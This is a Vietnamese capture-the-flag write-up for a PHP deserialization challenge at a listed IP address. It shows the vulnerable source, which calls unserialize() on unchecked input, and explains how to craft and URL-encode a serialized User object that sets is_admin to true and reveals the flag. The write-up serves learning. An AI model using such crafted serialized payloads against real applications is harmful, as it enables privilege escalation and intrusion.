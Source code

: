 # CTF Cây nhà lá vườn :D
##  PHP Serialize CTF 
  Link : http://45.122.249.68:10001/

  Source code của bài:

  ```php
<?php
#include "config.php";
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
?>
  ```

## Ý tưởng của bài 
  ```php
  class User{
  private $name;
  private $is_admin = false;
  public function __construct($name){
      $this->$name = $name;
  }
  public function __destruct(){
      if($this->is_admin === true){
          echo "hi admin, here is your flag";
      }
  }
}
  ```

  Trong hàm __detruct() của class User sẽ kiểm tra điều kiện is_admin === true thì web sẽ in ra kết quả "hi admin, here is your flag". Vậy chỉ cần gán giá trị cho is_admin = 1 là xong. ez :D
  
  ```php
    if(isset($_GET['code']))
    {
        unserialize($_GET['code']);
    }
    else
    {
        highlight_file(__FILE__);
    }
  ```
  Ở đây web sẽ nhận 1 parameter **code** sau đó sẽ unserialize giá trị truyền vào để tiếp tục thực thi. Do giá trị code này không được kiểm tra trước khi thực thi,nên chỉ cần tạo 1 payload serialize sao cho chuyển giá trị is_admin =1 là giải được bài này. 

## Create Payload
  Sử dụng vscode để debug và lệnh php -S 127.0.0.1 9000 code.php để debug trên localhost
 
  <img src="https://imgur.com/nzePFET"/>
  
  Tạo thêm 1 đoạn code để tạo serialize payload 

  ```php
  <?php 
    class User{
        private $name;
        private $is_admin = false;
        public function __construct($name){
            $this->$name = $name;
            var_dump($name);
        }
        public function __destruct(){
            if($this->is_admin === true){
                echo "hi admin, here is your flag";
            }
        }
    }  

 	// Create a object
    $a = new User("CaLopChacChuaCoAiLamDuocDau");
    
    // Print a after serialize
 	echo serialize($a);
?>
  ```

  Chạy đoạn code trên : **php -f exploit.php** Kết quả sẽ được 1 chuỗi sau khi serialize

  ```
  O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:0;s:27:"CaLopChacChuaCoAiLamDuocDau";s:27:"CaLopChacChuaCoAiLamDuocDau";}
  ```

  Sửa lại chuỗi **s:14:"Useris_admin";b:1;**

  ```
  O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:1;s:27:"CaLopChacChuaCoAiLamDuocDau";s:27:"CaLopChacChuaCoAiLamDuocDau";}
  ```

  Do biến $name và $is_admin là 2 biến được đặt ở private nên khi serialize sẽ tạo ra Username và Useris_admin. Do format khi serialize của PHP
  
  Nhưng khi thực thi payload này kết quả sẽ **không** trả về. Do việc deserialize bị lỗi 

  <img src="https://imgur.com/zyQvjMv" />
  
  Vì vậy cần sửa lại payload 1 chút để khi deserialize sẽ cho ra kết quả mong muốn

  ```
  O:4:"User":3:{s:4:"name";N;s:8:"is_admin";b:1;s:27:"CaLopChacChuaCoAiLamDuocDau";s:27:"CaLopChacChuaCoAiLamDuocDau";}
  ```
## Kết quả 
  Thực hiện chèn payload trên vào biến code 

  ?code=O:4:%22User%22:3:{s:4:%22name%22;N;s:8:%22is_admin%22;b:1;s:27:%22CaLopChacChuaCoAiLamDuocDau%22;s:27:%22CaLopChacChuaCoAiLamDuocDau%22;}

  Kết quả ez :D 

  <img src="https://imgur.com/phCU6LU" />

## Tài liệu tham khảo
  PHP Classes and Object : https://www.php.net/manual/en/language.oop5.php

  PHP serialize : https://www.php.net/manual/en/function.serialize.php

  Youtube about POP (Babytalk) : https://www.youtube.com/watch?v=DDxRn3CNdeQ


  


